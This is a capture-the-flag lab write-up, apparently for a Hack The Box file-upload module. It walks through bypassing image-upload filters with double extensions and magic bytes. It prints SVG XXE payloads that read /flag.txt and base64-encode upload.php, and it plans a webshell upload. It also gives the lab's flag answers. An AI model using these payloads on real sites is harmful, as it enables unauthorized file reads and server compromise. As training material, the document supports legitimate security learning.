
*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### previous section

The modified script found 2 possible extensions which are php valid – the same
'.phar' from the previous section, and '.phtml'.
Lets try 2: '.phar .png' , and 'phtml.gif' – doing the same upload process as
previous section:
'.phar .png'


'phtml.gif':


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


*_Figure 13.4 — Lab execution and output verification (Page 13)_*


### Type Filters

> **Lab Question (Page 14)**: The above server employs Client-Side, Blacklist, Whitelist, Content- Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"
>
> **Flag / Answer**: `HTB{m461c4l_c0n73n7_3xpl0174710n}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in this section the double extension list (or the original one) methods
will not work. we need to improve our methods.

Lets take a look again in a normal,valid image upload:

There is the validation of file's name double extensions. But there is also the
'Content-Type' parameter. And there is also the 'jpeg' magic value which
roughly interpreted as 'JFIF' (I will not go in details what the magic value here,
but in basic – every format has its own 'signature' in the file's header . That
signature we will have to copy as well. (more details are in the section's guide)
about the 'MIME-Type'.

The modifications we will do to the successful request from the previous
section – are:
first we will reverse the extensions order: '.phar .png'  →  '.png.phar' . the second
one we add the 'gif' magic value – 'GIF8' before the php payload:


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


→


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Limited File Uploads

> **Lab Question (Page 16)**: The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"
>
> **Flag / Answer**: `HTB{my_1m4635_4r3_l37h4l}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

here we get to a new website:

Which seems to accept svg only:

To update logo.
We can use this website to convert any picture to svg picture.

When done, we will intercept legitimate svg upload:


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### And send

*
*

We send the intercepted request to the burpsuite repeater, and remove all of
the xml section (the green text).

We will replace the removed original image content, with this xml payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```


And send:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


File successfully uploaded.

Now, lets intercept the main page load request and response:
`http://<target-IP>:<target-port>`


And enter 'Forward' (or send to repeater and continue from there):

The flag will appear as the 'image content' (it will not be seen in the browser
page, only in source code)


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### of the payload

> **Lab Question (Page 19)**: Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
>
> **Flag / Answer**: `./images/`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

to read 'upload.php' we will have to use the base64 encoded version
of the payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```


*the reason we need to encode the resource file, is because the usual one
doesn't do well with relative path (at least not for me). *
And lets see the base64 content of the 'upload.txt' in the main page response:


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### Lets decode

Lets decode:


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


### Capstone: Skills Assessment

> **Lab Question (Page 21)**: Try to exploit the upload form to read the flag found at the root directory "/".
>
> **Flag / Answer**: `HTB{m4573r1ng_upl04d_3xpl0174710n}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets enter the URL:
`http://<target-IP>:<target-port>`
in the burpsuite browser (interceptor off)

This is some nice website.. lets go to 'Contact Us':


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### and getting the request and response on the repeater

As we can see – we have the options to fill a form which includes name, email,
message, and the relevant for our purpose: image.
Now, lets try to upload a random, valid image while setting the interceptor on,
and getting the request and response on the repeater:


We can observe that the png content is being uploaded to
'/contant/upload.php' , and we got the response which contain the base64
representation of the png.
We can also observe the png format – it has the magic value 'PNG' at the
beginning, and 'END' (+other format parameters that are out of the scope of
this writeup).
Lets see what the upload looks like on the web page:

Pay attention to NOT enter submit.


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


*_Figure 22.4 — Lab execution and output verification (Page 22)_*


### allowed'

If we try to upload invalid image – we will get the prompt 'Only images are
allowed':

*i changed here the 'png' to 'gif', 'gif' here is not valid format. *

So, whatever image upload security mechanism, it will be at
'/contant/upload.php'.
Taking a loog again at the request screenshot above (the valid screenshots) –
we can see on the first screenshot, line 5 that the request is xml:

So lets try to obtain

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php">
]>
<svg>&xxe;</svg>
```


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


*_Figure 23.3 — Lab execution and output verification (Page 23)_*


### Lets decode it

We have on the response the base64 encoded 'upload.php'.

Lets decode it:

Lets show the decoded php page more clear:


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


Ok so what do we have – the file storage handler (lines 8-9), MIMEType handle
(lines 12-13), blacklist format checker (lines 16-19), whitelist format checker
(lines 22-25), MIMETypr format comparasion to ContentType (lines 28-33),
some size check and image upload.


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


### Lets check this

Lets start with the file storage handler – we can see it's a concatenation of
current date (format YYMMDD)_`<filename>`.png – meaning for the day of
writing this writeup – September 14, 2024; and the original filename
jonsnow.png – the file will be stored at stored at 'user_feedback_submissions'
folder (line 5) under the name '240914_jonsnow.png'.
Lets check this:
`http://<target-IP>:<target-port>/contact/user_feedback_submissions/<current-date>_jonsnow.png`

*Note: the `<current-date>` corresponds with the aforementioned date of today, which in this case is '240914'.*

Here is the image stored. Using this method we can get to the webshell we will
upload.

Now that the image storage mechanism is covered – lets move to the black list
and white list format.
Here is the blacklist regex format:
.+\.ph(p|ps|tml)
It means that anything which contains '<non empty string>.php<any string>'
Or '<non empty string>.phps<any string>'
or '<non empty string>.phtml<any string>' will be immediately ruled out. That
rules out formats like php, phps, php2, php'x' (x is any number), phtml.


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


### Now to the white-list

Attempting to use double extensions with those extensions will not work either
double extensions as 'php.png' or 'png.php' will also get black listed.
We can notice that the previously used 'phar' extension is not matching the
black-list.

Now to the white-list:
^.+\.[a-z]{2,3}g$
The extensions that will be accepted by the white list format are:
'<any non-empty string>.<2 or 3 letters>g' – it includes extensions such as
'.png', '.jpeg', '.jpg' (and any other 3 or 4 letters extensions which end with 'g').

If we combine the 2 lists together – we will notice that '`<filename>`.phar .png' –
will both is whitelisted (as it ends with '.png'), and not blacklisted.
We can use that format to upload outwebshell. Lets make a slight modification
to the 'jonsnow.png' upload request:

